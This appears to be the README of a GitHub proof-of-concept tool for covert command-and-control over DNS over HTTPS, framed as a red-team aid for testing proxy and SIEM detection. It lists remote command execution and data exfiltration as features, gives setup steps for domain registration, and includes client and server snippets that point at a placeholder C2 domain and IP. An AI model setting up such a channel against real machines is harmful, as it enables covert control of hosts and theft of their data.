 # Dns-over-HTTPS-DOH
This project provides a proof-of-concept implementation of a Command and Control (C2) infrastructure using DNS over HTTPS (DoH). 
DoH C2 allows for covert communication between the C2 server and the infected client machines by leveraging encrypted DNS queries
thereby making the traffic appear legitimate and harder to detect by traditional network monitoring tools.

# Testing and Limitations
This project is intended for educational purposes and authorized security research only. 
Bypassing antivirus software or other security measures is not within the scope of this project. 
It is designed for testing in controlled environments to demonstrate the feasibility and mechanics of using DoH for C2 communication **to test enterprise corporate forward proxy detection and improve any custom build signatures in SIEMs.**

# Features
**Covert Communication**: Utilizes DoH to encode and disguise C2 traffic.

**Command Execution**: Supports remote execution of commands on infected Linux clients.

**Data Exfiltration**: Allows for exfiltration of data through DOH queries.

**Server and Client Implementation**: Includes both C2 server and client components.

# Initial setup
For client side, linux is recommended but the code was tested on Windows 10 and seem to worked :)
For server side linux

1. **Client Side**
   Python:
        Install Python 3.x from the official website or your package manager.
    Requests Library:
       Install the requests library using pip:
       pip install requests
3. **Server side** only Linux
    Dnslib Library:
    Install the dnslib library using pip
   
    pip install dnslib


4. Register domain 
Example purchasing domain using namecheap.com
![grafik](https://github.com/user-attachments/assets/adb40d21-4985-465c-864f-a286b49a2bc1)
Follow instructions on the screenshot bellow to setup the NameServer.
Replace the IP and domainname with your purchased domain
![grafik](https://github.com/user-attachments/assets/c9e9f4cf-ac77-4b31-b92d-7bfe28ed93e9)

# Usage
**1. Client side**  

Make sure to change the bellow in the "doh_client.py" to the domain registered in step 4  

if __name__ == "__main__":
    domain_name = "send.example.com"  # Replace after '**send**' with your domain
    execute_command_from_dns(domain_name)

      
python3 doh_client.py  

**2. Server side**  

Make sure to change the IP in the "doh_server.py"  

class DNSDoHServer:
    def __init__(self, host='YOURIP', port=53): # Replace with Your public IP

      
Run: python3 doh_server.py

# Architecture TODO
# Detection Tips TODO
